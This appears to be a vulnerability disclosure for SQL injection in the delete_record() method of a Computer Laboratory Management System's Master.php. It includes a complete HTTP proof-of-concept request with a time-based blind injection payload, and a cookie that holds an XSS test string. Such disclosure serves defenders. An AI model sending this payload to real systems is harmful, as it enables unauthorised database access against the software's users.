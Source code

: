 #### There is sql injection in the delete_record() method of the /classes/Master.php file of the Computer Laboratory  Management System.

Key Code:

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240830194629284.png)

The `$id` is spliced into the sql statement without any filtering, which can be done with the code `extract($_POST);` which assigns a value to the `$id` as a malicious sql injection command.

**Vulnerability validation**

poc

```
POST /classes/Master.php?f=delete_record HTTP/1.1
Host: localhost:98
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://localhost:98
Connection: keep-alive
Referer: http://localhost:98/?XDEBUG_SESSION_START=14848
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; PHPSESSID=leagsbs030cq18dj30osfipt3t; XDEBUG_SESSION=14848
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

id='/**/or/**/(select(1)from(select(sleep(6)))x)#
```

As shown in the figure, the time delay 6 s

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240830194849116.png)

